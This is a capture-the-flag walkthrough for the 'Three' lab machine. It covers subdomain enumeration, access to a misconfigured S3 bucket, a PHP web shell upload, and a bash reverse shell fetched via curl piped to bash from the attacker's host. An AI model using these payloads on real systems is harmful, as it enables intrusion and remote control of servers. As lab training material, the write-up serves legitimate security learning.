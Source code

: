 # Three

#### Difficulty:<code>Very Easy</code>

#### Machine Tags
  Cloud  
  Custom Applications  
  AWS  
  Reconnaissance  
  Website Structure Discovery  
  Bucket Enumeration  
  Arbitrary File Upload  
  Anon/Guest Access  

#### Description
  The website we are seeking to penetrate is hosted on AWS and used S3 buckets for cloud-storage. Configured poorly, S3 buckets can be exploited. 

#### **Enumeration**
  To find out open ports we conduct a simple nmap. We find that ports 22 and 80 are open. Meaning that there is possibly a web interface to view if we try the IP on a browser. 

#### **Sub-domain Enumeration**
  A ***subdomain*** is an additional piece of information added to the beginning to a website's domain name. It allows websites to separate and organize content. *Host-based* or *virtual host* routing makes it possible for one server to handle multiple subdomains.  The *HOST* header in an HTTP request is used to determine which application to handle the request. There are different enumeration tools for finding sub-domains like <code>gobuster, wfuzz, feroxbuster</code>, in Gobuster a command for this would look like:
  ```
    gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
    
    vhost : use VHOST for brute-forcing
    -w    : path to the wordlist
    -u    : specify the URL
  ```

#### **S3 Buckets**
  **S3** is a cloud-based object storage service and have various uses like backup, storage, media hosting, software delivery, static websites, etc. Files stored in S3 buckets are called *S3 objects*. For interacting with S3 buckets, use <code>awscli</code>. Starting with <code>aws configure</code>, it will prompt for access key ID, secret access key, default region name, and default output format. These can be set to anything as they are not often configured to check for authentication. Using:
  ```
    aws --endpoint=http://s3.thetoppers.htb s3 ls
  ```
  To list all S3 buckets hosted by the server using ls command. To further investigate the buckets that are returned we can append <code>s3://{bucket}</code>. Since we have access to the remote bucket, we have the option of uploading files. Meaning we can potentially achieve remote code execution. 

#### **Approach to Remote Code Execution**
  We know that the application is using PHP. The following command allows the function to take the URL parameter, cmd, as input and executes it. 
  ``` PHP
    <[?]php s y s t e m($_GET["cmd"]); [?]> // had to defang a bit bc it was triggering windows defender 
  ```
  After uploading this bit of code, we can navigate to it in the browser and use the cmd parameter to run code. Through a *reverse shell* we will have the remote host connect back to our machine IP on a specified listening port, in this case tun0. The script for the reverse shell looks like:
  ``` python
    '''Bash reverse shell script'''
    bash -i >& /dev/tcp/<OUR_IP>/1337 0>&1

    '''Start ncat server on port'''
    nc -nvlp 1337

    '''Start web server on local to host shell script'''
    python3 -m http.server 8000

    http://{domain}.htb/{shell.php}?cmd=curl%20{YOUR_IP_ADDRESS}:8000/{shell.sh}|bash
  ```
  For the reverse shell after these are set up, we can use the URL parameter to fetch the bash file on our server then execute it. The link template is above. 